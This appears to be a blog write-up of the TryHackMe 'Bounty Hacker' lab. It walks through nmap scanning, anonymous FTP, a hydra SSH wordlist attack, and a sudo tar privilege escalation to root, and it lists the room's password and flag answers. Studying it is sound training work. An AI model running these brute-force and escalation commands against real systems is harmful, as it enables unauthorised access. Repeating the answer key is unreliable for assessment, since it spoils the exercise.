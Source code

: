 ```yaml
---
layout: post
title: Bounty Hacker
date: 2023-01-02 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Bounty Hacker] is a easy CTF on TryHackMe that focus on wordlist attack and sudo privilege escalation.

![Bounty Hacker](/images/THM/bountyhacker/logo.jpeg)


---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/THM/bountyhacker/Captura.PNG)

Like we can see in the scan, it returns, 3 open ports. We're going to connect to ftp.

```sh
ftp <IP>
```

![ftp](/images/THM/bountyhacker/Captura2.PNG)

We can log in with the anonymous user and If we list the files inner the directory we see 2 files, locks.txt and task.txt.

```sh
cat locks.txt
```

![locks](/images/THM/bountyhacker/Captura3.PNG)

When locks.txt is show up, we see a list. Lets going to think that is a password list.

```sh
cat task.txt
```

![task](/images/THM/bountyhacker/Captura4.PNG)

The other file, when it is shown, we see in the final part the signature of lin.

- Who wrote the task list?

>Answer: lin

With the above information, let's try to do a wordlist attack with [hydra].

```sh
hydra -l lin -P locks.txt <IP> ssh
```

![hydra](/images/THM/bountyhacker/Captura5.PNG)

- What service can you bruteforce with the text file found?

>Answer: ssh

- What is the users password?

>Answer: RedDr4gonSynd1cat3

How we got the credentials, let's connect to the machine.

```sh
ssh lin@<IP>
```

![ssh](/images/THM/bountyhacker/Captura6.PNG)

If we list the files, we can see the user.txt containing the flag.

```sh
ls
cat user.txt
```

![user flag](/images/THM/bountyhacker/Captura7.PNG)

- user.txt

>Answer: THM{CR1M3_SyNd1C4T3}

Now is the time to elevate our privileges so, we try with **sudo -l** to see if we can do something.
With the information returned, we can do the elevation with tar. If we don't know how to do It, we can go to [GTFOBins].

```sh
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=<shell>
```

![sudo](/images/THM/bountyhacker/Captura8.PNG)

Now that we are root, we can go to the /root directory and see the root flag.
And with that we finish this machine.

```sh
cd /root
ls
cat root.txt
```

![root flag](/images/THM/bountyhacker/Captura9.PNG)

- root.txt

>Answer: THM{80UN7Y_h4cK3r}


[Bounty Hacker]: https://tryhackme.com/room/cowboyhacker
[GTFOBins]:https://gtfobins.github.io/
[hydra]:https://github.com/vanhauser-thc/thc-hydra
